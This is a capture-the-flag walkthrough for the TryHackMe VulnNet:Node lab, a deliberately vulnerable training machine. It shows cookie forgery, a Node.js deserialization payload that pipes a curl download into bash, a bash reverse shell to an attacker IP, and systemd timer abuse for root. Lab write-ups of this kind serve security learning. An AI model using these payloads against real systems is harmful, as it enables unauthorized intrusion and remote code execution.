# [VulnNet:Node TryHackMe Writeup/Walkthrough][1]

VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network.

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`



Looks like we have one port open: `8080`.


> Found RCE, maybe off some use later.

I did `gobuster` scan but didn't find much really. I checked the website then.


> Nothing much on this blogs but found a *LOGIN NOW* page.

Nothing much to work with. I then checked the *cookies* under `Inspect Element > Storage`. I copied and paste the value onto the [CyberChef][3] website.

Use `URL Decode` and `From Base64` to get the text.



I change the text to: `{"username": "Admin", "isAdmin":true, "encoding":"utf-8"}` and encoded the text with `ToBase64` and then `URL Encode`. Just as how we decrypted it.



Copy this text and paste it in the value field and refresh the webpage.  For a flash second I see *something Admin*. Let's fireup  **BurpSuite**.

Intercept the request and check in repeater.


> Got Admin access.

Delete part of cookie and check their error handling system. Fascinatingly there are direct error messages.



Searched cookie exploit online and will found an interesting cookie exploit on [exploit-db][4].

> Reading into the exploit

I then create a file called `shell.sh` with the content -> `bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1` and started a local server using python -> `python3 -m http.server`



Also, start a `netcat` listener in other terminal -> `nc -lvnp 4444`.

Now lets configure the cookie and send it to the server.

I configure it according the need of the server -> `{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl <YOUR_IP>:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}`


> Encode the cookie

Paste this after `session=` under cookie and send the request in BurpSuite.

Go back to your terminal where you had `nc` listener. You will see a reverse connection.



I looked around and checked my access for this shell.



There was nothing much. I then checked what programs I can run using `sudo -l`.



We can run `npm` as `serv-manage`. Let's search this on [GTFOBins][5]. I found the exploit to get the sudo access.


> BAAM! We got the access.

Let's stabilize the shell first. CMD -> `python -c 'import pty;pty.spawn("/bin/bash")'`



I got the user flag.

#### Privilege Escalation

For the `root`, let's check what programs I can run.


> Seems like I can run three commands as root.

Let's find this `vulnnet-auto.timer` file. For this we can use `locate` command.


> We have write access to this file as we are in `serv-manage` group.

Let's check the content of this file.


> Seems like this file is running other file called `vulnnet-job.service`

[Viewing the file]

This file is running a bash script. We can replace the bash script with the pervious curl command and get the root access. (If you have shutdown the python server, start it again)

I was not able to edit it properly. So I copied the content and created a file with the same name locally.

Also change the port in `shell.sh` to `4445`

I then sent this file to the server using `curl` command.


> Also dont forgot to start a listener again in a different terminal -> `nc -lvnp 4445`

Wait for a bit and you will get the connection. If not, run the command to which we had access -> `sudo /bin/systemctl stop vulnnet-auto.timer` and then `sudo /bin/systemctl start vulnnet-auto.timer`



You know what to do next :stuck_out_tongue_winking_eye:



[1]: https://tryhackme.com/room/vulnnetnode
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://gchq.github.io/CyberChef/
[4]: https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf
[5]: https://gtfobins.github.io/gtfobins/npm/
